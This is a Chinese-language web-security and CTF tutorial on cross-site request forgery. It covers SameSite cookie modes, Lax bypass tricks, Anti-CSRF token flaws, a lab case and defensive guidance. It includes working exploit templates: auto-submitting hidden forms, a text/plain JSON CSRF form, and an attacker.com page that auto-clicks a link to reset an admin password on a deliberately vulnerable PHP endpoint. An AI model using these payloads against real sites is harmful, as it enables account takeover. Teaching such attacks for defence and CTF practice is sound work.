


# ⚔️ 跨站请求伪造 (CSRF) 深度攻防：浏览器会话凭证流转与 SameSite 属性破防矩阵

> **漏洞本质**：跨站请求伪造（Cross-Site Request Forgery，CSRF）利用的是**浏览器对敏感凭证（主要是 Session Cookie）的自动化携带机制**。
> 当受害者在浏览器中登录了受信任站点 A 后，其会话 Cookie 会保存在浏览器中。当受害者不慎访问攻击者构建的恶意站点 B 时，站点 B 页面中的脚本向站点 A 发送敏感请求（如修改密码、转账），**浏览器会自动且无条件地将站点 A 的会话 Cookie 附加到该跨站请求中**！
> 目标服务器无法区分“该请求是受害者自愿发起的”还是“受害者被第三方网站诱骗借刀发起的”，从而导致越权特权操作执行！

---

## 0. 基础前置认知与小白扫盲：借你的工牌打卡——CSRF 的本质

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. CSRF 与 XSS 的根本区别
* **XSS（偷看与行窃）**：黑客的代码在你的浏览器里真正跑起来了，黑客直接偷走你的 Cookie 或截屏；
* **CSRF（借刀杀人）**：**黑客根本不需要知道你的密码和 Cookie 是什么！**
  * 你刚刚登录了银行网站，浏览器里存着合法的登录状态；
  * 此时黑客诱骗你点击了一个恶意网页；
  * 这个恶意网页背地里向银行发起了一笔转账请求：`POST /transfer?to=hacker&amount=1000`；
  * 浏览器的底层机制是：“**只要你向银行发请求，浏览器就会自动把银行的 Cookie 带上！**”
  * 银行服务器收到请求，一看 Cookie 确实是你的，立刻扣款！

---

### 2. 现代防御救星：Cookie 的 `SameSite` 属性三种模式
为了彻底终结 CSRF，现代浏览器推出了 `SameSite` 属性：
* **`SameSite=Strict`（绝对严防死守）**：只要请求是从别的网站跨站跳过来的，任何情况下都绝不携带本站 Cookie！完全免疫 CSRF。
* **`SameSite=Lax`（现代浏览器默认模式）**：普通的图片加载、POST 跨站表单不带 Cookie；只有当用户点击顶层超链接跳转（GET 导航）时才允许带 Cookie。大幅扼杀了传统 CSRF 的生存空间。
* **`SameSite=None`（完全放开，必须搭配 Secure）**：完全允许第三方跨站携带 Cookie。通常仅用于需要跨域嵌入的特殊业务。

---

## 一、CSRF 攻击模型与 XSS 的本质差异



| 维度对比 | 跨站脚本攻击 (XSS) | 跨站请求伪造 (CSRF) |
| :--- | :--- | :--- |
| **执行上下文** | 恶意代码直接运行在**目标站点源（Origin）内部** | 恶意代码运行在**攻击者的第三方站点源** |
| **攻击目标** | 窃取页面敏感数据、DOM、Token，实施客户端控制 | **冒充受害者身份向目标站发起敏感动作** |
| **回显感知能力** | 攻击者可完全读取响应数据（同源） | **攻击者受同源策略限制，看不见响应内容**（盲打动作） |
| **HttpOnly 防御** | `HttpOnly` 能防御 Cookie 窃取，但无法防御 DOM 篡改 | `HttpOnly` **完全无法防御 CSRF**（浏览器自动携带 Cookie） |

---

## 二、CSRF 攻击三大实现形态

### 1. GET 型 CSRF（最隐蔽）
若服务端接口设计不规范，将敏感操作（如注销、修改权限）暴露在 GET 请求中：
```html
<!-- 隐藏在图片、样式或音频加载标签中，页面加载时由浏览器被动发出 -->

```

---

### 2. POST 型 CSRF（最常见：自动提交隐藏表单）
若服务端敏感接口只接收 POST 请求，攻击者在第三方网页中构造自动提交的隐藏表单：

#### 🔍 恶意 Exploit 模板：
```html
<!DOCTYPE html>
<html>
<head><title>CSRF Exploit</title></head>
<body>
    <form id="csrfForm" action="http://target.ctf/user/change_password" method="POST">
        <input type="hidden" name="new_password" value="hacked123" />
        <input type="hidden" name="confirm_password" value="hacked123" />
    </form>
    <script>
        // DOM 加载完成后无感自动提交
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

---

### 3. JSON / 复杂请求型 CSRF（利用 `text/plain` 绕过 CORS 预检）
现代前端框架（Vue/React）常使用 JSON 发送 POST 请求。跨域发送 `application/json` 会触发浏览器的 **CORS Preflight（OPTIONS 预检请求）**，若服务端未配置开放 CORS，跨域请求会被拦截。
* **突破技巧**：利用 HTML 表单将 `enctype` 强制声明为 `text/plain`！
  ```html
  <form action="http://target.ctf/api/profile" method="POST" enctype="text/plain">
      <input name='{"role":"admin","padding":"' value='test"}' type='hidden'>
  </form>
  ```
  * 浏览器将其视为**简单请求（Simple Request）**，**不发送 OPTIONS 预检请求直接向目标发包！**
  * 若目标后端 JSON 解析库容错性强（只要字符串以 `{` 开头并以 `}` 结尾即可反序列化），即可完成 JSON CSRF 击穿！

---

## 三、Cookie `SameSite` 属性机制与 3 大绕过技巧

为了从浏览器内核层根除 CSRF，现代浏览器（Chrome 80+、Firefox、Edge）推行了 Cookie 的 `SameSite` 属性标准：



### 1. `SameSite=Lax` 的防御边界
当 Cookie 缺省或显式标注为 `Lax` 时：
* ❌ 阻止所有第三方跨站的 POST 表单提交；
* ❌ 阻止通过 ``, `<iframe>`, `fetch()`, `XMLHttpRequest` 发起的跨站请求携带 Cookie；
* ✅ **特例放行：允许“顶级导航（Top-Level Navigation）”的安全 GET 请求携带 Cookie**（即地址栏 URL 发生改变的 `<a href="...">` 点击跳转、GET 表单提交）。

---

### 2. 绕过 `SameSite=Lax` 的三大实战破局点

#### (1) 技巧 A：HTTP 方法重写（Method Override）
许多现代后端框架（如 Spring MVC, Rails, Symfony）为了支持不支持 PUT/DELETE 的老旧前端，支持在 GET 请求中通过参数覆盖实际 HTTP 请求方法：
```http
GET /user/update?_method=POST&new_password=hacked123 HTTP/1.1
```
* **攻防博弈**：
  * 因为它是一个顶级导航的 GET 请求，**浏览器判定其符合 `SameSite=Lax` 放行规则，自动附带敏感 Cookie！**
  * 后端框架拦截器读取 `_method=POST` 后，将其提升为 POST 请求处理，导致 CSRF 依然成功！

#### (2) 技巧 B：站内开放重定向 Gadget（Open Redirect 链）
* **原理**：`SameSite=Lax` 仅拦截第一跳跨域请求。如果受信任目标站内部存在一个无危害的开放重定向接口（如 `http://target.ctf/redirect?url=...`）：
* **攻击链设计**：
  1. 攻击者让受害者点击访问：`http://target.ctf/redirect?url=/api/transfer%3Fto%3Dattacker`；
  2. 第一次跳转是受信任站点自身的内部请求，属于**同站导航（Same-Site）**；
  3. 后续重定向到达敏感操作接口时，由于是内部跳转，**浏览器全额携带所有 `Lax` 与 `Strict` Cookie！**

#### (3) 技巧 C：120 秒 Lax+POST 宽松窗口期（Lax-allowing-unsafe）
* **机制**：Chromium 内核为了保证老旧系统的单点登录（SSO）体验，如果一个 Cookie **没有显式声明 `SameSite`**（仅依赖浏览器默认 Lax），**在 Cookie 被 Set-Cookie 写入后的前 120 秒（2 分钟）内，浏览器依然允许其在跨站 POST 请求中携带！**
* **利用**：攻击者在页面中先诱导受害者重新刷新会话，随后在 2 分钟内立即发起跨站 POST CSRF！

---

## 四、Anti-CSRF Token 防御机制与常见绕过缺陷

主流 Web 框架采用 CSRF Token（随机令牌）防御：服务端生成一段不可预测的随机哈希存入 Session，每次表单渲染时作为隐藏字段放入页面，提交时严格比对。

### 常见的 Token 实现漏洞矩阵：

| 脆弱实现场景 | 漏洞机理 | 绕过 Payload 与攻击手法 |
| :--- | :--- | :--- |
| **Token 缺失不校验** | 后端代码逻辑缺陷：仅当提交了 `csrf_token` 时才比对，未提交则跳过检查 | 直接从 POST 数据包中**删除整个 `csrf_token` 参数**并提交 |
| **未绑定当前用户 Session** | 后端仅检查该 Token 是否在全局 Token 池中有效，未绑定发起者身份 | 攻击者用自己的小号登录获取一个合法 Token，填入受害者的 CSRF 表单 |
| **类型混淆与等号绕过** | PHP `hash_equals()` 缺失，直接用 `==` 弱类型比较 | 传 `csrf_token=0` 或布尔值 `true` 触发弱类型转换绕过 |
| **Double Submit Cookie 缺陷** | 将 Token 同时存入 Cookie 和表单，后端仅比对两者是否相等 | 结合目标子域名的 XSS 或 CRLF 注入，强行向受害者写入一个伪造的 Token Cookie |

---

## 五、CTF 实战靶场案例复现

### 靶场情境：管理员修改密码接口存在 CSRF 漏洞

#### 后端接口代码（PHP）：
```php
<?php
session_start();
require_once('db.php');

// 校验登录状态
if (!isset($_SESSION['user_id'])) {
    die("Unauthorized!");
}

// 开发者为了方便调试，允许 GET 和 POST 混合传参！
if ($_SERVER['REQUEST_METHOD'] === 'POST' || $_SERVER['REQUEST_METHOD'] === 'GET') {
    if (isset($_REQUEST['password'])) {
        $new_pwd = $_REQUEST['password'];
        $user_id = $_SESSION['user_id'];
        
        // 执行修改密码
        update_password($user_id, $new_pwd);
        echo "Password changed successfully!";
    }
}
?>
```

### 1. 攻防分析
* **目标状态**：管理员正在登录后台，且管理员的 Cookie 设置为默认的 `SameSite=Lax`。
* **漏洞缺陷**：后端使用了 `$_REQUEST['password']`，接口**不仅支持 POST，同时也支持 GET 方式执行修改密码动作！**
* **穿透思路**：既然 `SameSite=Lax` 拦截了跨站 POST，那么直接使用 **顶级导航 GET 请求** 穿透 Lax 限制！

### 2. 构造攻击页面（部署在攻击者公网服务器）：
```html
<!-- http://attacker.com/csrf_exploit.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Click to Win Free Coins!</title>
</head>
<body>
    <h1>Congratulations! Click below to claim your prize!</h1>
    
    <!-- 利用 <a> 标签诱导管理员点击，触发顶级导航 GET 请求 -->
    <a id="pwn" href="http://challenge.ctf:8080/change_pwd.php?password=admin_hacked_2026">CLAIM REWARD</a>

    <script>
        // 自动触发点击，实现全自动跨站导航
        window.onload = function() {
            document.getElementById('pwn').click();
        }
    </script>
</body>
</html>
```

### 3. 攻击验证与效果
1. 攻击者将链接 `http://attacker.com/csrf_exploit.html` 投递给管理员审核；
2. 管理员浏览器打开该页面，触发 `<a>` 标签跳转；
3. **因为是顶级导航 GET 请求，浏览器遵循 `SameSite=Lax` 规则，自动附带管理员的有效 Session Cookie！**
4. 目标接口成功接收到包含管理员 Cookie 的修改密码请求，密码被无感知重置为 `admin_hacked_2026`！
5. 攻击者成功接管管理员账号，拿下靶机 Flag！

---

## 六、CSRF 终极防御规范

1. **显式严密配置 Cookie 的 `SameSite` 属性**：
   * 对敏感操作类 Cookie 强制设置为 **`SameSite=Strict`**；
   * 对通用 Cookie 显式设置为 **`SameSite=Lax`**，绝不依赖浏览器的默认策略。
2. **密码学强绑定的 Anti-CSRF Token**：
   * Token 必须使用高熵随机数生成（如 `random_bytes(32)`）；
   * Token 必须与当前用户的 Session 会话在服务端严格强关联；
   * 采用基于请求体的 POST 隐藏字段校验，严禁在 GET 参数中传递 Token。
3. **敏感操作二次认证（Re-Authentication）**：
   * 修改密码、绑定手机、大额转账等高危操作，强制要求用户输入当前旧密码或短信验证码，从根本上终结无交互 CSRF。
4. **校验 `Origin` 与 `Referer` 标头**：
   * 严格核验请求头中的 `Origin` 字段必须属于本站域名白名单，若为外部未知 Origin 则一律拒绝。

---

## 🔗 相关双向链接
- 上级模块：[[08-XSS与前端攻击面]]
- 前置防线：[[02-CSP(内容安全策略)原理与各种Bypass技巧]]
- 业务逻辑：[[09-认证授权与业务逻辑漏洞/01-JWT原理与攻击面（空加密none、密钥爆破、公私钥混淆、JWK注入）]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
